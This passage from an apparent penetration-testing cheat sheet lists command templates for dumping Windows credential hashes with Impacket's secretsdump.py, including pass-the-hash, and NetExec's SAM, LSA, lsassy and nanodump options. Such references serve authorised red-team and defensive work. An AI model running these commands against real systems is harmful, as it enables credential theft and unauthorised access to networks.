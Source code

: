 ```
$ secretsdump.py [<domain>/]<username>:<password>@<IP> [-exec-method <smbexec | wmiexec | mmcexec>] -use-remoteSSMethod

$ secretsdump.py [<domain>/]<username>@<IP> -hashes :<nt_hash> [-exec-method <smbexec | wmiexec | mmcexec>] -use-remoteSSMethod
```

## 02 - Automated Hashdump

### 2.1 - Impacket

```
$ secretsdump.py [<domain>/]<username>:<password>@<IP> [-exec-method <smbexec | wmiexec | mmcexec>]

$ secretsdump.py [<domain>/]<username>@<IP> -hashes :<nt_hash> [-exec-method <smbexec | wmiexec | mmcexec>]
```

### 2.2 - NetExec

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --sam

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --lsa

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] -M lsassy

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] -M nanodump
```

---
## References

- [Samdump2](https://salsa.debian.org/pkg-security-team/samdump2)

- [Wadcoms Impacket Secretsdump](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/)